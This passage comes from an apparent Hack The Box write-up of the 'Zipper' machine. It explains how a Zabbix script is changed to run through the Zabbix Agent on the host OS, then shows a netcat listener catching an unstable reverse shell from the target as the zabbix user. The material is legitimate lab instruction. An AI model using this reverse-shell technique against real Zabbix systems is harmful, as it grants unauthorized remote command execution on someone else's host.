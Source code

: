 ![](/assets/images/htb-writeup-zipper/zabbix_admin.png)

Under the Zabbix host, we can see that there are two hosts and one is running the Zabbix Agent.

![](/assets/images/htb-writeup-zipper/zabbix_hosts.png)

The agent is running on the host OS while the Zabbix server is running in a container so what we want to do is modify our existing script so its runs on the Zabbix Agent (therefore on the Host OS) instead of the server.

![](/assets/images/htb-writeup-zipper/zabbix_script2.png)

We can now get a shell on the Host OS but it's not stable and we lose the connection after a few seconds:
```
root@ragingunicorn:~/htb/zipper# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.108] 55348
/bin/sh: 0: can't access tty; job control turned off
$ hostname
zipper
$ id
uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
$
```
